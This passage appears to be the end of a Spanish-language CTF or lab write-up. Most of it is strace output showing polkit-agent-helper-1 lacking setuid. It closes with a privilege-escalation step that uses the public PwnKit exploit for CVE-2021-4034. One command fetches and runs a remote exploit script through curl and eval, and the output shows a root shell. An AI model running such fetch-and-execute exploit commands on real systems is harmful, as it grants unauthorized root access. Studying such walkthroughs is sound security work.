mmap(NULL, 311896, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f936cf000
mmap(0x706f936d8000, 212992, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x9000) = 0x706f936d8000
mmap(0x706f9370c000, 53248, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x3d000) = 0x706f9370c000
mmap(0x706f93719000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x49000) = 0x706f93719000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libselinux.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=174472, ...}) = 0
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x706f936cd000
mmap(NULL, 181960, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f936a0000
mmap(0x706f936a6000, 118784, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x6000) = 0x706f936a6000
mmap(0x706f936c3000, 24576, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x23000) = 0x706f936c3000
mmap(0x706f936c9000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x29000) = 0x706f936c9000
mmap(0x706f936cb000, 5832, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x706f936cb000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libcap.so.2", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\340\201\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=51536, ...}) = 0
mmap(NULL, 49224, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93693000
mmap(0x706f93696000, 24576, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x3000) = 0x706f93696000
mmap(0x706f9369c000, 8192, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x9000) = 0x706f9369c000
mmap(0x706f9369e000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xb000) = 0x706f9369e000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libgcrypt.so.20", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=1340976, ...}) = 0
mmap(NULL, 1340272, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f9354b000
mmap(0x706f9355a000, 999424, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xf000) = 0x706f9355a000
mmap(0x706f9364e000, 241664, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x103000) = 0x706f9364e000
mmap(0x706f93689000, 36864, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x13e000) = 0x706f93689000
mmap(0x706f93692000, 880, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x706f93692000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/liblz4.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=137440, ...}) = 0
mmap(NULL, 135264, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93529000
mmap(0x706f9352c000, 110592, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x3000) = 0x706f9352c000
mmap(0x706f93547000, 8192, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1e000) = 0x706f93547000
mmap(0x706f93549000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x20000) = 0x706f93549000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/liblzma.so.5", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=202904, ...}) = 0
mmap(NULL, 200728, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f934f7000
mmap(0x706f934fa000, 139264, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x3000) = 0x706f934fa000
mmap(0x706f9351c000, 45056, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x25000) = 0x706f9351c000
mmap(0x706f93527000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x30000) = 0x706f93527000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libzstd.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=755864, ...}) = 0
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x706f934f5000
mmap(NULL, 757816, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f9343b000
mmap(0x706f9343f000, 684032, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x4000) = 0x706f9343f000
mmap(0x706f934e6000, 53248, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xab000) = 0x706f934e6000
mmap(0x706f934f3000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xb7000) = 0x706f934f3000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libblkid.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=236592, ...}) = 0
mmap(NULL, 238520, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93400000
mmap(0x706f93407000, 147456, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x7000) = 0x706f93407000
mmap(0x706f9342b000, 36864, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x2b000) = 0x706f9342b000
mmap(0x706f93434000, 28672, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x33000) = 0x706f93434000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libgpg-error.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=149760, ...}) = 0
mmap(NULL, 147880, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f933db000
mmap(0x706f933df000, 90112, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x4000) = 0x706f933df000
mmap(0x706f933f5000, 36864, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1a000) = 0x706f933f5000
mmap(0x706f933fe000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x23000) = 0x706f933fe000
close(3)                                = 0
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x706f933d9000
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x706f933d7000
arch_prctl(ARCH_SET_FS, 0x706f933d7d80) = 0
set_tid_address(0x706f933d8050)         = 52919
set_robust_list(0x706f933d8060, 24)     = 0
rseq(0x706f933d86a0, 0x20, 0, 0x53053053) = 0
mprotect(0x706f93bff000, 16384, PROT_READ) = 0
mprotect(0x706f933fe000, 4096, PROT_READ) = 0
mprotect(0x706f93434000, 24576, PROT_READ) = 0
mprotect(0x706f934f3000, 4096, PROT_READ) = 0
mprotect(0x706f93527000, 4096, PROT_READ) = 0
mprotect(0x706f93549000, 4096, PROT_READ) = 0
mprotect(0x706f93689000, 20480, PROT_READ) = 0
mprotect(0x706f9369e000, 4096, PROT_READ) = 0
mprotect(0x706f93cab000, 4096, PROT_READ) = 0
mprotect(0x706f936c9000, 4096, PROT_READ) = 0
mprotect(0x706f93719000, 8192, PROT_READ) = 0
mprotect(0x706f93736000, 4096, PROT_READ) = 0
mprotect(0x706f9382e000, 4096, PROT_READ) = 0
mprotect(0x706f93f11000, 4096, PROT_READ) = 0
mprotect(0x706f9373d000, 4096, PROT_READ) = 0
mprotect(0x706f93745000, 4096, PROT_READ) = 0
mprotect(0x706f93cb9000, 4096, PROT_READ) = 0
mprotect(0x706f93d8e000, 45056, PROT_READ) = 0
mprotect(0x706f93f73000, 12288, PROT_READ) = 0
mprotect(0x706f939f5000, 32768, PROT_READ) = 0
mprotect(0x706f93dbb000, 4096, PROT_READ) = 0
mprotect(0x706f93f95000, 4096, PROT_READ) = 0
mprotect(0x706f93fa6000, 4096, PROT_READ) = 0
mprotect(0x55c06f3e3000, 4096, PROT_READ) = 0
mprotect(0x706f93ffc000, 8192, PROT_READ) = 0
prlimit64(0, RLIMIT_STACK, NULL, {rlim_cur=8192*1024, rlim_max=RLIM64_INFINITY}) = 0
munmap(0x706f93fa8000, 88059)           = 0
getrandom("\xe8\x4a\x69\xd3\xb1\x40\x62\x56", 8, GRND_NONBLOCK) = 8
brk(NULL)                               = 0x55c0819fe000
brk(0x55c081a1f000)                     = 0x55c081a1f000
prctl(PR_CAPBSET_READ, CAP_MAC_OVERRIDE) = 1
prctl(PR_CAPBSET_READ, 0x30 /* CAP_??? */) = -1 EINVAL (Argumento inválido)
prctl(PR_CAPBSET_READ, CAP_CHECKPOINT_RESTORE) = 1
prctl(PR_CAPBSET_READ, 0x2c /* CAP_??? */) = -1 EINVAL (Argumento inválido)
prctl(PR_CAPBSET_READ, 0x2a /* CAP_??? */) = -1 EINVAL (Argumento inválido)
prctl(PR_CAPBSET_READ, 0x29 /* CAP_??? */) = -1 EINVAL (Argumento inválido)
statfs("/sys/fs/selinux", 0x7fffa3db8260) = -1 ENOENT (No existe el archivo o el directorio)
statfs("/selinux", 0x7fffa3db8260)      = -1 ENOENT (No existe el archivo o el directorio)
openat(AT_FDCWD, "/proc/filesystems", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0444, st_size=0, ...}) = 0
read(3, "nodev\tsysfs\nnodev\ttmpfs\nnodev\tbd"..., 1024) = 407
read(3, "", 1024)                       = 0
close(3)                                = 0
access("/etc/selinux/config", F_OK)     = -1 ENOENT (No existe el archivo o el directorio)
openat(AT_FDCWD, "/proc/sys/kernel/cap_last_cap", O_RDONLY) = 3
fstatfs(3, {f_type=PROC_SUPER_MAGIC, f_bsize=4096, f_blocks=0, f_bfree=0, f_bavail=0, f_files=0, f_ffree=0, f_fsid={val=[0x19, 0]}, f_namelen=255, f_frsize=4096, f_flags=ST_VALID|ST_NOSUID|ST_NODEV|ST_NOEXEC|ST_RELATIME}) = 0
read(3, "40\n", 7)                      = 3
close(3)                                = 0
prctl(PR_CAPBSET_READ, CAP_CHOWN)       = 1
prctl(PR_GET_SECUREBITS)                = 0
prctl(PR_GET_NO_NEW_PRIVS, 0, 0, 0, 0)  = 0
prctl(PR_CAP_AMBIENT, PR_CAP_AMBIENT_IS_SET, CAP_CHOWN, 0, 0) = 0
futex(0x706f93f12de8, FUTEX_WAKE_PRIVATE, 2147483647) = 0
futex(0x706f93f12de8, FUTEX_WAKE_PRIVATE, 2147483647) = 0
geteuid()                               = 1000
write(2, "polkit-agent-helper-1: needs to "..., 47polkit-agent-helper-1: needs to be setuid root
) = 47
fstat(1, {st_mode=S_IFIFO|0600, st_size=0, ...}) = 0
write(1, "PAM_ERROR_MSG Incorrect permissi"..., 89) = 89
write(1, "FAILURE\n", 8)                = 8
fdatasync(1)                            = -1 EINVAL (Argumento inválido)
fdatasync(2)                            = -1 EINVAL (Argumento inválido)
clock_nanosleep(CLOCK_REALTIME, 0, {tv_sec=0, tv_nsec=100000000}, NULL) = 0
exit_group(1)                           = ?
+++ exited with 1 +++
```

Encontramos lineas interesantes:

`polkit-agent-helper-1: needs to be setuid root` indica que debería tener setuid root, pero no lo tiene.

Si buscamos `polkit cve setuid`, encontramos la siguiente vulnerabilidad:

https://www.alibabacloud.com/help/en/ecs/vulnerability-announcement-or-linux-polkit-privilege-escalation-vulnerability

Encontramos un exploit:
https://github.com/berdav/CVE-2021-4034/tree/main

```bash
[magellan@venus ~]$ eval "$(curl -s https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.sh)"
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
sh-5.1# whoami
root
```

